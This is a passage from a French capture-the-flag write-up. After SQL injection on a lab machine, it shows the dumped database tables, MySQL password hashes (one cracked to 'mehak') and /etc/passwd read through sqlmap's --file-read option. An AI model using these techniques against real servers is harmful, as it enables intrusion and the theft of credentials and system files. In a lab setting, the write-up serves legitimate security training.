 ```
Database: secure_login                                                                                                                                                                                           
[4 tables]
+-----------------+
| UB3R/strcpy.exe |
| login_attempts  |
| members         |
| word            |
+-----------------+
```

Aucune des tables n'est intéressante mais le premier nom de table (`UB3R/strcpy.exe`) correspond à un fichier sur le serveur web qui est en vérité un fichier PDF (pas un exe). Il ne semble, à première vue, pas contenir quoi que ce soit d'intéressant.

Je peux aussi dumper les hashs MySQL car l'utilisateur courant est `root` :

```
*616B4539A8036DB2A22866D602041053E22D4D51
*C585694D9A2AB16831EAB1361DEC1908BE17F739
```

Le second hash se cracke comme étant `mehak`, mot de passe déjà utilisé sur l'autre CTF du même auteur. Il ne semble pas être utilisable pour SSH.

Comme on est root sur MySQL on possède le privilège `FILE`. Je peux donc utiliser l'option `--file-read` de `sqlmap` pour exfiltrer des infos comme le fichier `/etc/passwd` :

```
root:x:0:0:root:/root:/bin/bash                                                                                        
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                        
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                                                   
sys:x:3:3:sys:/dev:/usr/sbin/nologin                                                                                   
sync:x:4:65534:sync:/bin:/bin/sync                                                                                     
--- snip ---                                    
acid:x:1000:1000:acid,,,:/home/acid:/bin/bash                                                                          
mysql:x:111:126:MySQL Server,,,:/nonexistent:/bin/false                                                                
avahi:x:110:123:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false                                                  
lightdm:x:112:127:Light Display Manager:/var/lib/lightdm:/bin/false                                                    
hplip:x:113:7:HPLIP system user,,,:/var/run/hplip:/bin/false                                                           
kernoops:x:114:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false                                                       
pulse:x:115:128:PulseAudio daemon,,,:/var/run/pulse:/bin/false                                                         
rtkit:x:116:130:RealtimeKit,,,:/proc:/bin/false                                                                        
saned:x:117:131::/var/lib/saned:/bin/false                                                                             
makke:x:1001:1001:,,,:/home/makke:/bin/bash                                                                            
sshd:x:118:65534::/var/run/sshd:/usr/sbin/nologin
```
